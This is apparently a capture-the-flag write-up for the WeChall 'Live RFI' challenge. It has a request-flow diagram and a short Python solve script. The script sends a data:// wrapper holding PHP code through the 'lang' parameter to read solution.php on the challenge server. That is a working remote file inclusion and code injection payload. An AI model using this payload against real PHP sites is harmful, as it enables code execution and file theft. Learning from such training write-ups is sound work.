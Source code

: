 ================================================================================================================
[wechall] Warchall: Live RFI
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="index.php?lang=data://text/plain,<?php print file_get_contents('solution.php',true);?>",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|


solve
================================================================================================================


.. code-block:: python

    import requests

    url = "http://rfi.warchall.net/index.php"

    params = {
        "lang": "data://text/plain,<?php print file_get_contents('solution.php',true);?>"
    }

    r = requests.get(url, params=params, verify=False)
    print r.content
